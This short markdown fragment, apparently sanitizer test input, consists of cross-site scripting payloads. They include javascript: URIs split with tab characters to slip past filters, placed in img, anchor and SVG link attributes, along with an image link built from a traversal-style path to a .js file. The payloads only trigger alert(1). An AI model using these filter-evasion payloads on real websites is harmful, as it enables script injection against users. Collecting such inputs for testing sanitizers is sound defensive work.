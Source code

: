 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="javas	cript:alert(1)" width="javas	cript:alert(1)">

<a href="javas	cript:alert(1)">XSS</a>

<svg><a xlink:href="javascript:alert(1)"><text x="20" y="20">XSS</text></a>
